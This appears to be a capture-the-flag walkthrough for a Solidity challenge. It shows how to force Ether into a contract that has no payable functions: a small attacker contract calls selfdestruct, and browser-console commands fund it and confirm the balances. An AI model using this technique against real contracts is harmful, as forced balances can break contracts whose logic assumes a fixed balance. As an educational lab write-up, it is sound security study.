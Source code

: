 Typically, we would rely on a provided function to transfer value to the contract. Else, we would default to `fallback` or `receive` functions. Unfortunately, we have no functions -- no functions at all. Let’s determine a workaround.

Within the [Security Considerations](https://docs.soliditylang.org/en/develop/security-considerations.html#sending-and-receiving-ether) section of the Solidity documentation, we learn that we can actually move Ether without message calls! We can designate a target address as the recipient for either (a) mining block rewards or (b) remaining value of a self-destructed contract. The latter seems more feasible.

Let’s force Ether into our instance by (1) creating a contract, (2) providing the contract with a balance, and (3) have it `selfdestruct`, with the recipient as our instance.

(1) First, we'll create, compile, and deploy the following contract in Remix.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// create new contract
contract ForceFeedEther {
    // allow receipt of ether

    receive() external payable {}

    // force ether into target contract
    function boomBoomPow(address payable _targetAddr) public {
        selfdestruct(_targetAddr);
    }
}
```

(2) Now, we'll provide the contract with a balance. We've included a `receive` function in our contract to assist with this.

```js
// Let's check that our contract value is currently 0 from the console
> toWei(await getBalance('0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55'))
< '0'

// Send 10 wei to contract
> await web3.eth.sendTransaction({to:'0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55', from:player, value:10})

// Check updated contract value
> toWei(await getBalance('0x7a0bA04E8504Ba2AeAc986656B98b83dE1270b55'))
< '10'
```

(3) Finally, we'll have the contract `selfdestruct`, with the recipient as our instance.

```js
// Confirm the instance value is 0 from the console
> toWei(await getBalance(instance))
< '0'

// Execute selfdestruct from Remix, specifying the instance address as the target address

// Check the updated instance value
> toWei(await getBalance(instance))
< '10'
```
